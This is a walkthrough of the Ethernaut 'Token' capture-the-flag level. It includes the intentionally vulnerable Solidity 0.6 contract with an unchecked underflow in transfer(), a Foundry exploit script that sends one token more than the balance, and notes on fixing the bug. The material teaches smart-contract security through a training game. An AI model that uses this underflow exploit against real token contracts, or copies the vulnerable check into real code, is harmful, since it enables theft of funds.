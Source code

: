 # Level 5 - Token ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/5" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

&#x20; Things that might help:

* What is an odometer?
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Token.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
{% endcode %}

### Exploit

The exploit is due to unsafe math in older versions of Solidity. The balance can underflow and cause a huge amount of tokens to be transferred.

1. Sending just 1 more token than the user balance causes the value to underflow.&#x20;

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-5

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-5

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level5.s.sol" %}

{% code title="script/Level5.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IToken {
    function transfer(address _to, uint256 _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint256 balance);
}

// ================================================================
// │                         LEVEL 5 - TOKEN                      │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IToken targetContract = IToken(targetContractAddress);
        uint256 userStartingBalance = targetContract.balanceOf(msg.sender);

        vm.startBroadcast();
        targetContract.transfer(address(0), userStartingBalance + 1);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
**NOT NEEDED IN SOLIDITY 0.8.0 AND HIGHER**

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```solidity
a = a.add(c);
```

If there is an overflow, the code will revert.
{% endhint %}

### Notes

* Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity `v0.6.0`
* This could easily be fixed using a different check instead of comparing to zero.

```solidity
if (balances[msg.sender] < _value) revert Token__NotEnoughTokens();
```

